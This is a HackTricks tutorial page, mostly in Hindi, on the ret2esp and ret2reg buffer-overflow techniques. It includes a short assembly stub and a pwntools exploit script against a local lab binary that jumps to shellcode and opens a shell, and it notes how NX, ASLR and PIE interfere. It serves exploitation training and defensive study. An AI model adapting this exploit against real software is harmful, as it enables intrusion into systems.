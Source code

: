 # Ret2esp / Ret2reg

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Ret2esp**

**क्योंकि ESP (स्टैक पॉइंटर) हमेशा स्टैक के शीर्ष की ओर इशारा करता है**, यह तकनीक EIP (इंस्ट्रक्शन पॉइंटर) को **`jmp esp`** या **`call esp`** इंस्ट्रक्शन के पते से बदलने में शामिल है। ऐसा करने से, शेलकोड ठीक उस स्थान पर रखा जाता है जहाँ EIP को ओवरराइट किया गया है। जब `ret` इंस्ट्रक्शन निष्पादित होता है, तो ESP अगले पते की ओर इशारा करता है, जो ठीक उसी स्थान पर है जहाँ शेलकोड संग्रहीत है।

यदि **एड्रेस स्पेस लेआउट रैंडमाइजेशन (ASLR)** विंडोज़ या लिनक्स में सक्षम नहीं है, तो साझा लाइब्रेरी में पाए जाने वाले `jmp esp` या `call esp` इंस्ट्रक्शनों का उपयोग करना संभव है। हालाँकि, [**ASLR**](../common-binary-protections-and-bypasses/aslr/) सक्रिय होने पर, किसी को इन इंस्ट्रक्शनों के लिए कमजोर प्रोग्राम के भीतर देखना पड़ सकता है (और आपको [**PIE**](../common-binary-protections-and-bypasses/pie/) को हराने की आवश्यकता हो सकती है)।

इसके अलावा, EIP भ्रष्टाचार के **बाद शेलकोड को रखने में सक्षम होना**, स्टैक के मध्य में रखने के बजाय, यह सुनिश्चित करता है कि फ़ंक्शन के संचालन के दौरान निष्पादित किसी भी `push` या `pop` इंस्ट्रक्शनों का शेलकोड के साथ हस्तक्षेप नहीं होता है। यह हस्तक्षेप तब हो सकता है जब शेलकोड फ़ंक्शन के स्टैक के मध्य में रखा गया हो।

### स्थान की कमी

यदि RIP को ओवरराइट करने के बाद लिखने के लिए आपके पास स्थान की कमी है (शायद केवल कुछ बाइट्स), तो एक प्रारंभिक `jmp` शेलकोड लिखें जैसे:
```armasm
sub rsp, 0x30
jmp rsp
```
और स्टैक में जल्दी शेलकोड लिखें।

### उदाहरण

आप इस तकनीक का एक उदाहरण [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) पर अंतिम एक्सप्लॉइट के साथ पा सकते हैं:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
## Ret2reg

इसी तरह, यदि हम जानते हैं कि एक फ़ंक्शन उस पते को लौटाता है जहाँ शेलकोड संग्रहीत है, तो हम **`call eax`** या **`jmp eax`** निर्देशों का उपयोग कर सकते हैं (जिसे **ret2eax** तकनीक के रूप में जाना जाता है), जो हमारे शेलकोड को निष्पादित करने का एक और तरीका प्रदान करता है। eax की तरह, **कोई अन्य रजिस्टर** जिसमें एक दिलचस्प पता हो, का उपयोग किया जा सकता है (**ret2reg**).

### Example

You can find an example here: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Protections

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): यदि स्टैक निष्पादन योग्य नहीं है तो यह मदद नहीं करेगा क्योंकि हमें शेलकोड को स्टैक में रखना है और इसे निष्पादित करने के लिए कूदना है।
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): ये esp या किसी अन्य रजिस्टर पर कूदने के लिए एक निर्देश खोजने को कठिन बना सकते हैं।

## References

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

